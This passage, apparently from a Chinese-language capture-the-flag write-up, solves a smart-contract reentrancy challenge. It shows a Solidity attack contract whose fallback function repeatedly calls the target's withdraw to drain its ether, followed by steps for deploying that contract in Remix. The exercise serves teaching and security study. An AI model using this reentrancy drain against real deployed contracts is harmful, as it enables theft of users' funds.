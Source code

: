 ```bash
  function() public payable {}
}

contract ReentrancePoc {

    Reentrance reInstance;

    function getEther() public {
        msg.sender.transfer(address(this).balance);
    }

    function ReentrancePoc(address _addr) public{
        reInstance = Reentrance(_addr);
    }
    function callDonate() public payable{
        reInstance.donate.value(msg.value)(this);
    }

    function attack() public {
        reInstance.withdraw(1 ether);
    }

  function() public payable {
      if(address(reInstance).balance >= 1 ether){
        reInstance.withdraw(1 ether);
      }
  }
}
```

下面进行攻击操作，首先点击"Get new Instance"来获取一个实例：

[![](assets/1706254492-21f628356173189dc94bb489e9a12db3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125161812-47bddaf6-bb5a-1.png)  
之后获取 instance 合约的地址  
[![](assets/1706254492-5d66635308ba9b10fb7446333dd54f31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125161821-4d51ffb0-bb5a-1.png)  
之后在 remix 中部署攻击合约  